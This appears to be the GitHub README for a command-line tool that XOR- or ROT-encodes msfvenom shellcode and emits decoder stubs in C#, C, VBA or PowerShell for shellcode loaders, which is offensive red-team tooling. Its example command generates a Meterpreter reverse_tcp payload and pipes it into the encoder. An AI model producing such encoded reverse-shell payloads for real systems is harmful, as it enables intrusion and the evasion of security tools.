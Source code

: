 # shellcode-encoder

CLI utility to encode msfvenom generated shellcode.

Reads shellcode in hex format from stdin, and then performs selected encoding and outputs encoded shellcode with a decoding routine.

Intended use is for shellcode loaders.

Supported encodings:
- XOR
- ROT

Supported output formats:
- C# (csharp)
- C (c)
- VBA (vbapplication)
- PowerShell (ps1)

## Installation

```sh
cargo install --git https://github.com/aol1306/shellcode-encoder
```

## Example usage

Encode shellcode from msfvenom using XOR operation (`output[i] = shellcode[i] ^ 17`):

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f hex | shellcode-encoder -f csharp -e xor -k 17
```

View help:

```sh
shellcode-encoder --help
```

## Tips

- Any bin file can be easily converted to the required hex format by piping it to `hexdump -ve '1/1 "%.2x"'`.